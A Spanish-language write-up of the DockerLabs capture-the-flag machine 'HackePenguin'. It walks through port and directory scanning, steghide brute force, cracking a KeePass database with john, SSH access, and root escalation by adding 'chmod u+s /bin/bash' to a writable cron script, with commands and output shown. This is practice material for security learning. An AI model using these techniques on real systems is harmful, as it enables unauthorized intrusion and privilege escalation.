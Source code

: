 Máquina HackePenguin

Iniciamos con mi rutina básica de reconocimiento de nmap:

```
sudo nmap -p- --open -sSCV --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN Target
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:13:95:24:c7:08:e8:36:51:6d:ab:b2:e5:3e:3b:da (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNVFhFPx46QZ+sM4vC3yecbwD2hDgxKBg8x/alXdgL/ojBUsbliyqCPFfQ08+WTNu+4fipx7zg9V8ZjKDxFmBnw=
|   256 e2:f3:81:1f:7d:d0:ea:ed:e0:c6:38:11:ed:95:3a:38 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIWG6446chvKHIhxdIVHwcEw1kXFORyLzANPqUKTdCku
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Bueno pues vemos una página web y un ssh activo, vamos a enumerar la página web:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/c964245a-da2d-4e32-aabe-ca9296101542)

Bueno es un apache por defecto, vamos a fuzzear un poco a ver si encontramos algo:

```
gobuster dir -u "http://172.17.0.2" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/penguin.html         (Status: 200) [Size: 342]
/.html                (Status: 403) [Size: 275]
Progress: 406141 / 4741020 (8.57%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 407142 / 4741020 (8.59%)
===============================================================
Finished
===============================================================
```

Ya hemos encontrado cositas, vamos a verlo:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/266c4060-d7fd-4713-a74c-863dab65d04d)

No vemos nada a priori, vamos a ver la imagen, que es lo unico que tenemos de valor, así que por probar vamos a descargarnos la imagen con 
wget la imagen y a meterle un rockyou con stegide:

Para hacer fuerza bruta con steghide tengo un repositorio: https://github.com/FakeLuci/brute-force-on-steghide.git

Configuramos el script y encontramos que la contraseña es chocolate:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/5a02c44d-d5df-49ea-89f7-ffdb337598ee)

Al parecer hemos extraido un archivo penguin.kdbx, sinceramente no tengo ni idea de que es un archivo .kdbx, investigando he encontrado que
es un archivo de keypass, pues bueno vamos a descargarnos keypass para ver uqe hay dentro:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/a30f1c35-e547-4aac-ac24-2291ddf249fc)

Intentamos entrar al archivo de keepas para ver uqe hay dentro:

```
keepass2 penguin.kdbx
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/6992b937-9586-44d7-bc76-9aa94ef39bce)

Bueno al parecer la contraseña chocolate no es la contraseña master de este archivo, he estado investigando en internet y este mismo archivo se puede desencriptar con john
de la siguiente manera:

```
keepass2john penguin.kdbx > password
john password
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/4e435199-8253-4afb-a3fa-1c1ea3c9e682)

Pues si sabemos que la paswword de el archivo es "password1" pues entramos en el archivo

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/7100dbf4-a2c7-4ab7-8b78-f6ef569e6de4)

teniendo estas credenciales ahora podemos entrar por ssh:

Bueno pues probando con el usuario pinguino no va, he probado con penguin y ahora si va, vamos a ver uqe hay dentro:

Una vez dentro utilizamos el siguiiente comando para mejorar la consola:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Bueno nada mas entrar he hecho ls y he encontrado un script bastante tentador, vamos a ver si es una tarea cron con el siguinete script:

```
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "^[<>]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
```

y bueno de primeras ya vemos que se ejecuta muchisimas veces uspongo que estara cada segundo o algo así:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/e78f8f5a-4920-40b7-bcac-8cd18230f396)

pues bueno tan simple como poner dentro de este script: chmod u+s /bin/bash

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/9069eee9-b0ee-49e7-8e67-34bc4ae2908b)

Esta máquina me ha gustado mucho ya que he aprendido a saber y desencriptar que es un archivo .kdbx y a utilizar keepass2
ademas de utilizar unas cuantas herramientas scripteadas sin tener que hacer copia y pega como el script de steghide y el procmon

Dificultado 2/5
Diversión 2/5




